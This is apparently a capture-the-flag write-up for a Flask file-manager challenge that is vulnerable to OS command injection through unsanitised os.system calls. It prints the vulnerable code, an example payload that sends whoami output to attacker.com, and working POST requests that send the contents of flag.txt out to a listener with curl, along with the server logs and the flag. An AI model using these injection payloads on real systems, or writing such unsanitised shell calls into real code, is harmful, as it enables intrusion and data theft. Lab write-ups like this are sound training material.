

# Manager ( OS command injection)
## The site: 
The site is a file manager where you can upload/download and copy/move files around
made with flask

## The vulnerability:
The site uses os.system to do these actions without input sanitization

```python
os.system(f'rm -rf "{full_path}"') # removing a file
os.system(f'cp -r "{source_path}" "{dest_path}"') # copying
os.system(f'mv "{source_path}" "{dest_path}"') #moving
```

**How it works**
	Since the user controls the `source_path` and `dest_path` he can inject `;` or `"` to close the string and stop the running command and get command execution
	resulting in `cp -r "source_path" "dest_path"; command here #`
	since the output does not reflect to the page we need to get output result somewhere like our server:
	EG:  `cp -r "source_path" "dest_path"; curl attacker.com/?flag=$(whoami) #`


**The exploit**
start our server (we can use webhook.site or anything)
```bash
selim@debian:~/Documents/cscctour/manager$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```
send the payload:
```bash
curl -X 'POST' \
    -H 'Host: 127.0.0.1:5000' -H 'Content-Length: 109' -H 'Content-Type: application/x-www-form-urlencoded' \
    --data-binary 'source=test.pdf&destination=\";curl+localhost:8888/?flag=$(whoami)+\"' \
    'http://127.0.0.1:5000/copy'
```

Then in our server:
```bash
127.0.0.1 - - [25/Dec/2025 14:50:09] "GET /?flag=selim HTTP/1.1" 200 -
```
we got the output of `whomai` 

now we get the flag:
```http
POST /copy HTTP/1.1
Host: 127.0.0.1:5000
Content-Length: 80
Content-Type: application/x-www-form-urlencoded

source=Flag%2Fflag.txt&destination=";curl+localhost:8888/?flag=$(cat+flag.txt)+"
```

```http
127.0.0.1 - - [25/Dec/2025 15:24:44] "GET /?flag=CSCCtru5t_us3r_1nput_4nd_g3t_1nj3ct3d HTTP/1.1" 200 -
```
 
